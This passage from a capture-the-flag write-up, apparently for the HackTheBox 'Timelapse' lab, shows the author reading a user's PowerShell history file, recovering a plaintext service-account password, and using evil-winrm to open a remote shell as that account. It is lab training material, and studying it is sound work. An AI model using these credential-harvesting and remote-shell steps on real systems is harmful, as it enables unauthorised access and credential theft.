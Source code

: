 No privileges are useful here.
Now, let's check Powershell command history stored in `C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

### Powershell history

```powershell
*Evil-WinRM* PS C:\Users\legacyy\Documents> cat C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

It stores command lines related to password setting.
It reveals that the user `svc_deploy`'s password is set to `E3R$Q62^12p7PLlC%KWaxuaV`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
 
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Warning: Press "y" to exit, press any other key to continue

Info: Exiting...

  
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami
timelapse\svc_deploy
```
